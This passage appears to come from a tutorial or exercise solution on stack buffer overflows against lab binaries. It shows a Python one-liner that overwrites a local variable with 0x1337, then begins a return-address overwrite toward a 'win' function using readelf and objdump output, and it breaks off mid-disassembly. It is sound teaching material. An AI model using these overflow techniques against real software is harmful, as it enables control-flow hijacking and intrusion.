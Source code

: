 the variable `x`.
```
$ ./overflow1
Please enter your name: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
4þ!
x == 4141414141414141
```
If we choose an even longer input, the program crashes, but that is not
interesting for this exercise.

After trying a bit around, we can see that `x` is changed when we send more
than `0x28 = 40` bytes.
This tells us that the variable `x` is located `0x28 = 40` bytes after the
start of the buffer `name`.

<details><summary>Alternative way to find the offset</summary></details>

Now that we now the offset of `x`, we can overwrite it with the required value
`0x1337`.
Since `x` is a 64 bit integer and the architecture is little endian, this
corresponds to the byte sequence `b'\x37\x13\x00\x00\x00\x00\x00\x00'`
(for convenience, we can use the Python function `struct.pack('<Q', 0x1337)` to
obtain this).
```
$ python -c "import os, struct; os.write(1, b'A'*0x28 + struct.pack('<Q', 0x1337))" | ./overflow1 
Please enter your name: Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA7!
x == 1337
Success!
```


### Part 2: Changing the Control Flow


Now we have to overwrite the return address with the address of the function
`win`.
The program tells us the right address.
```
$ ./overflow2
win is located at 0x401156
Please enter your name: 
```
Alternatively, we can also look up the symbol in the binary, e.g., with
```
$ readelf -s overflow2 | grep win
    40: 0000000000401156    22 FUNC    GLOBAL DEFAULT   14 win
```

By looking at the disassembly of the function `vuln`, we find that the buffer
`name` is located at `[rbp-0x20]`.
```
$ objdump -M intel -d overflow2
[...]
000000000040116c <vuln>:
  40116c:       55                      push   rbp
  40116d:       48 89 e5                mov    rbp,rsp
  401170:       48 83 ec 20             sub    rsp,0x20
  401174:       48 8d 05 db ff ff ff    lea    rax,[rip+0xffffffffffffffdb]        # 401156 <win>
  40117b:       48 89 c6                mov    rsi,rax
  40117e:       48 8d 05 88 0e 00 00    lea    rax,[rip+0xe88]        # 40200d <_IO_stdin_used+0xd>
  401185:       48 89 c7                mov    rdi,rax
  401188:       b8 00 00 00 00          mov    eax,0x0
  40118d:       e8 be fe ff ff          call   401050 <printf@plt>
  401192:       48 8d 05 8a 0e 00 00    lea    rax,[rip+0xe8a]        # 402023 <_IO_stdin_used+0x23>
  401199:       48 89 c7                mov    rdi,rax
  40119c:       b8 00 00 00 00          mov    eax,0x0
```